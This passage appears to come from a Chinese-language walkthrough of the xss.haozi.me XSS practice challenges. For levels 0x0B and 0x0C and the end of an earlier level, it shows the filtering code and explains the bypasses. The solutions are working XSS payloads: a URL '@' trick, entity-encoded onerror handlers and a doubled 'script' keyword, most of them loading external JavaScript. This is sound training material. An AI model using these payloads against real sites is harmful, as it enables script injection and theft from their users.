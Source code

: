 - solution

对输入的`input`字段中的`&`、`'`、`"`、`<`、`>`、`/`进行HTML实体编码过滤，输出点为`src`属性。利用URL的`@`特性引入外部js进行绕过,`https://www.segmentfault.com@xss.haozi.me/j.js`中实际加载为`@`后的URL地址。

```html
//input code
https://www.segmentfault.com@xss.haozi.me/j.js
//html
<script src="https:&#x2f&#x2fwww.segmentfault.com@xss.haozi.me&#x2fj.js"></script>
```

## 0x0B

- server code

```js
function render (input) {
  input = input.toUpperCase()
  return `<h1>${input}</h1>`
}
```

将输入的`input`字段全转化为大写字母。

1、html标签大小写不敏感，可以直接引入外部js文件绕过。

2、js严格区分大小写，解析环境为html标签内可以使用html实体编码绕过。

- solution

```html
//input code
<script src="https://xss.haozi.me/j.js"></script>
<img src=x onerror=&#97;&#108;&#101;&#114;&#116;&#40;1&#41;>
//html
<h1><SCRIPT SRC="HTTPS://XSS.HAOZI.ME/J.JS"></SCRIPT></h1>
<h1><IMG SRC=X ONERROR=&#97;&#108;&#101;&#114;&#116;&#40;1&#41;></h1>
```

## 0x0C

- server code

```js
function render (input) {
  input = input.replace(/script/ig, '')
  input = input.toUpperCase()
  return '<h1>' + input + '</h1>'
}
```

- solution

不区分大小写将`script`关键字替换为空后将字符串内容转化为大写。可以通过双写`script`进行绕过。

```html
//input code
<scscriptript src="https://xss.haozi.me/j.js"></scscriptript>
//html
<h1><SCRIPT SRC="HTTPS://XSS.HAOZI.ME/J.JS"></SCRIPT></h1>
```
